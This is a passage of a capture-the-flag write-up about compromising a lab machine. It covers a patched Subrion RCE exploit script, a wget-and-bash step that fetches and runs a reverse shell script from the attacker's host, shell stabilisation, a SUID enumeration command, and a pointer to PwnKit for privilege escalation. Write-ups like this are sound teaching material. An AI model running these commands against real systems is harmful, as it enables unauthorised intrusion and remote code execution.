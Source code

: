`tas@kali$ python3 SubrionRCE.py -u http://support.thm/subrion/panel -l admin -p $PASS` <br>

This told me that the login had failed, and to check my credentials. I did, and they were correct, so I had to take a closer look at the exploit script. <br>

It turned out that the script was checking the length of the server's response and using that to decide whether the login had failed or not. <br>

![Failing section of code](https://i.imgur.com/j9RT6zZ.png)

I modified the script to print out the "auth.text" response, and ran it again. <br>

The response printed to my console showed me that it was actually successfully logging in, but since the response was shorter than 7000 bytes, the script would just die right there anyways. <br>
So next I modified the script to bypass that check altogether. Then I ran the script again. This time it worked. <br>

![Subrion RCE](https://i.imgur.com/tHlE7NO.png)

Great, now I had RCE. Due to the finnicky nature of this Python script, and the fact that it was only a webshell, I decided to immediately escalate to a full reverse shell. <br>

> `$ which wget` <br>
> /bin/wget <br>
> `tas@kali$ python3 -m http.server --directory /home/tas 80` <br>
> `$ wget http://myIP/shell.sh` <br>
> `$ /bin/bash shell.sh` <br>

![I Caught a shell](https://i.imgur.com/V427JEj.png)

Next, I decided to stabilize my shell with Python3: <br>

> `$ which python3` <br>
> /usr/bin/python3 <br>
> `$ python3 -c 'import pty; pty.spawn("/bin/bash")'` <br>
> Ctrl-z to background the shell <br>
> `tas@kali$ stty raw -echo` <br>
> `tas@kali$ fg` <br>
> Pressing enter a couple times.. <br>
> `www-data@TechSupport$ export TERM=xterm` <br>

Then I continued enumerating from inside the server. <br>

After checking a few things like the kernel version and sudo permissions for www-data, I decided to search for SUID binaries. <br>

`www-data@TechSupport$ find / -perm -u=s -type f 2>/dev/null` <br>

![SUID Binaries on the server](https://i.imgur.com/XNyxzKQ.png)

Cross-referencing this list with [GTFOBins](https://gtfobins.github.io/#+suid), there didn't appear to be any misconfigured SUID binaries on this server. <br>

I did notice something myself though, this server has the binary `pkexec`, which was semi-recently found to be vulnerable to a privilege escalation exploit known as [pwnKit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034). <br>
